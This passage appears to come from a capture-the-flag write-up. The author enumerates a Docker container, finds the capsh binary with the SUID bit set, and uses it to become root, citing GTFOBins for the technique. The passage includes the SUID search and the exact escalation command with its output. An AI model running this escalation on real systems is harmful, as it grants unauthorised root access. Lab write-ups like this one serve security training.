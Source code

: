 ### Enumerating docker container

Looking at SUID privileges, we see a very dangerous SUID set in `capsh`:
```
www-data@50bca5e748b0:/$ find / -perm /4000 2> /dev/null
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/newgrp
/sbin/capsh
/bin/mount
/bin/umount
/bin/su
```
[gtfobins](https://gtfobins.github.io/gtfobins/capsh/) covers how we might abuse this setting to elevate our privileges to root level:

![](Images/capsh.png)

By abusing this 2nd command we become the root user. However, there is something strange about this filesystem.
```
www-data@50bca5e748b0:/$ capsh --gid=0 --uid=0 --
root@50bca5e748b0:/# 
```

There are no home folders, and root has no flag as well:
```
root@50bca5e748b0:/# ls -al /home/
total 8
drwxr-xr-x 2 root root 4096 Mar 22 13:21 .
drwxr-xr-x 1 root root 4096 Mar 21 10:49 ..
root@50bca5e748b0:/# ls -al /root/
total 16
drwx------ 1 root root 4096 Mar 21 10:50 .
drwxr-xr-x 1 root root 4096 Mar 21 10:49 ..
lrwxrwxrwx 1 root root    9 Jan  9  2023 .bash_history -> /dev/null
-rw-r--r-- 1 root root  571 Apr 10  2021 .bashrc
lrwxrwxrwx 1 root root    9 Mar 21 10:50 .mysql_history -> /dev/null
-rw-r--r-- 1 root root  161 Jul  9  2019 .profile
```

